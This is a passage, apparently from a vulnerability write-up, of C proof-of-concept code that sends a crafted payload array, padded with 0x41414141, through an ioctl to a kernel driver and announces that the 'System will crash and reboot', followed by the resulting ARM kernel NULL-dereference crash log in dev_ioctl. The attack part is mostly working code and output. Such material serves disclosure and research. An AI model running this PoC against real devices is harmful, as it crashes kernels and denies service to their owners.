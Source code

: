         0xb28e0040,
        0x000fffff,
        0x458603f4,
        0xffff007f,
        0xa9030f02,
        0x00000001,
        0x002cffff,
        0x9e00cdff,
        0x00000004,
        0x41414141,
        0x41414141,
        0x41414141,
        0x41414141 };

            int fd = 0;
            fd = open(driver, O_RDWR);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try open %s with command 0x%x.\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }
    崩溃日志
    [  164.793151] Unable to handle kernel NULL pointer dereference at virtual address 00000037
    [  164.802459] pgd = c26ec000
    [  164.805664] [00000037] *pgd=82f42831, *pte=00000000, *ppte=00000000
    [  164.813415] Internal error: Oops: 17 [#1] PREEMPT SMP ARM
    [  164.819458] Modules linked in: omaplfb(O) pvrsrvkm(O) pvr_logger(O)
    [  164.827239] CPU: 1    Tainted: G           O  (3.4.83-gd2afc0bae69 #1)
    [  164.834686] PC is at dev_ioctl+0x4ac/0x10c4
    [  164.839416] LR is at down_timeout+0x40/0x5c
    [  164.844146] pc : [<c03178e8>]    lr : [<c006e9b8>]    psr: 60000013
    [  164.844146] sp : c25a1e70  ip : c25a1e50  fp : c25a1f04
    [  164.857116] r10: 00000000  r9 : d8c0aca8  r8 : bed5c610
    [  164.863128] r7 : c0a25b50  r6 : c25a0000  r5 : bed5c610  r4 : 0000000f
    [  164.870391] r3 : 00001403  r2 : 00000000  r1 : 20000013  r0 : 00000000
    [  164.877807] Flags: nZCv  IRQs on  FIQs on  Mode SVC_32  ISA ARM  Segment user
    [  164.885894] Control: 10c5387d  Table: 826ec04a  DAC: 00000015
    [  164.892303]
    [  164.892333] PC: 0xc0317868:
    [  164.897308] 7868  30d22003 33a03000 e3530000 0a0001c5 e3e0500d eaffff02 e1a0200d e3c26d7f
    [  164.907989] 7888  e3c6603f e5963008 e2952008 30d22003 33a03000 e3530000 1a000021 e24b3064
    [  164.918670] 78a8  e1a01005 e3a02008 e50b3088 e1a00003 ebfcfa5f e3500000 1a00001e e51b4060
    [  164.929351] 78c8  e3020710 e59f7bdc ebf4db32 e1a01000 e2870038 ebf55c25 e3500000 1a0002e0
    [  164.939880] 78e8  e5943028 e1a08000 e5940024 e1a02007 e2841024 e5803004 e5830000 e5b23070
    [  164.950561] 7908  e5871070 e2420038 e5831004 e5843024 e5842028 ebf55bb9 e50b8060 e50b8064
    [  164.961212] 7928  ea000006 e24b1064 e50b1088 e51b0088 e3a01008 ebfd0387 e3a03004 e50b3064
    [  164.971771] 7948  e5963008 e2952008 30d22003 33a03000 e3530000 1affffc5 e1a00005 e51b1088
    [  164.982299]
    [  164.982330] LR: 0xc006e938:
    [  164.987426] e938  e1a01000 0a000007 e3a05000 e2433001 e5843008 e1a00004 eb18d7ad e1a00005
    [  164.997955] e958  e24bd014 e89da830 e1a00004 e50b1018 eb18d135 e51b1018 e1a05000 eafffff4
    [  165.008636] e978  e1a0c00d e92dd878 e24cb004 e1a04000 e1a05001 eb18d91b e5943008 e3530000
    [  165.019317] e998  e1a06000 0a000007 e3a05000 e2433001 e5843008 e1a00004 e1a01006 eb18d794